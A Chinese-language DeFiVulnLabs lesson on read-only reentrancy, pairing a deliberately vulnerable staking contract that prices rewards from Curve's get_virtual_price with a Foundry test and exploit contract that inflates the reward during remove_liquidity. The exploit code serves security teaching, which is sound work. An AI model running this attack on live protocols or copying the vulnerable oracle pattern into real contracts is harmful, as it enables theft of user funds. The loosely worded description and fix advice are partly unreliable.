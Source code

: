 # 只读可重入  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)  
**名称：** 只读可重入性漏洞  
**描述：**  
只读重入性漏洞是智能合约设计的一个缺陷，这允许攻击者利用函数的“只读”特性对合约的状态进行意外的更改。  
具体来说，当攻击者通过ICurve合约的remove_liquidity函数触发ExploitContract中的receive函数时，就会出现这种漏洞。这是通过通过一个安全的智能合约“A”的外部调用，调用攻击者合约的fallback()函数来实现的。  
通过这种漏洞，攻击者获得了在fallback()函数内对目标合约“B”执行代码的能力，而合约“B”与合约“A”间接相关。合约“B”从合约“A”中推导出LP代币的价格，使其容易收到操纵，并且通过重入攻击导致意外的价格变化。  

**修复建议：**  
避免在只读函数中进行任何的状态修改操作。  
**Makerdao的例子：**  
```
// 如果在状态修改pool函数执行期间被调用，这将被回滚。
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```
**参考**  
https://twitter.com/1nf0s3cpt/status/1590622114834706432  
https://chainsecurity.com/heartbreaks-curve-lp-oracles/  
https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334  
https://www.youtube.com/watch?v=0fgGTRlsDxI  


**VlunContract:**  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //根据池子LP代币的当前虚拟的价格奖励代币
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // 省略代码来转移奖励代币
        return reward;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// 测试VulnContract合约中只读重入漏洞的函数
function testPwn() public {
    // 通过漏洞合约将10个ether质押到VulnContract合约
    hack.stakeTokens{value: 10 ether}(); 
    // 对VulnContract合约执行只读重入攻击
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// 利用VulnContract合约只读重入漏洞的合约
contract ExploitContract {
    //与ICurve和IERC20合约交互的接口
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // 待攻击的VulnContract合约
    VulnContract private immutable target;

    // 初始化vulnerable合约
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // 质押LP代币到VulnContract合约的函数
    function stakeTokens() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池添加流动性并且接受LP代币作为回报
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录添加流动性后的LP代币的价格
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // 批准VulnContract合约代表此合约花费LP代币
        lpToken.approve(address(target), lp);
        // 将LP代币质押到VulnContract合约中
        target.stake(lp);
    }

    // 对VulnContract合约执行只读重入攻击的函数
    function performReadOnlyReentrnacy() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池添加流动性并且接受LP代币作为回报
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 在移除流动性之前记录LP代币的价格
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // 移除流动性时收到的最低金额
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // 从Curve池中移除流动性，这将触发receive函数
        pool.remove_liquidity(lp, min_amounts);
        // 记录移除流动性后LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    // Fallback function that will be triggered when removing liquidity from the Curve pool
    //从Curve池中移除流动性时将触发的Fallback函数
    receive() external payable {
        // 在移除流动性期间记录LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```  
**红色框：** 攻击成功，价格被操控  
![Alt text](image-4.png)  
![Alt text](image-5.png)